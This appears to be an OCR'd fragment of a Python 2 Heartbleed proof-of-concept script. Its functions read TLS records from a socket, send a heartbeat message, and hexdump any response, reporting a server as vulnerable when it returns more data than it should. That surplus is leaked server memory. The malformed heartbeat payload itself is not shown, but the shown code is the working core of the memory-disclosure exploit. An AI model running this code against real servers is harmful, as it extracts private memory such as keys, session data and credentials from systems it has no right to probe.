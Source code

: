 	def recvall(s, length, timeout=4):
	    endtime = time.time() + timeout
	    rdata = ''
	    remain = length
	    while remain > 0:
	        rtime = endtime - time.time()
	        if rtime < 0:
	            return None
	        r, w, e = select.select([s], [], [], 5)
	        if s in r:
	            data = s.recv(remain)
	            # EOF?
	            if not data:
	                return None
	            rdata += data
	            remain -= len(data)
	    return rdata
	
	
	def recvmsg(s):
	    hdr = recvall(s, 5)
	    if hdr is None:
	        print 'Unexpected EOF receiving record header - server closed connection'
	        return None, None, None
	    typ, ver, ln = struct.unpack('>BHH', hdr)
	    pay = recvall(s, ln, 10)
	    if pay is None:
	        print 'Unexpected EOF receiving record payload - server closed connection'
	        return None, None, None
	    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
	    return typ, ver, pay
	
	def hit_hb(s, hb):
	    s.send(hb)
	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ is None:
	            print 'No heartbeat response received, server likely not vulnerable'
	            return False
	
	        if typ == 24:
	            print 'Received heartbeat response:'
	            hexdump(pay)
	            if len(pay) > 3:
	                print 'WARNING: server returned more data than it should - server is vulnerable!'
	            else:
	                print 'Server processed malformed heartbeat, but did not return any extra data.'
	            return True
	
	        if typ == 21:
	            print 'Received alert:'
	            hexdump(pay)
	            print 'Server returned error, likely not vulnerable'
	            return False
	
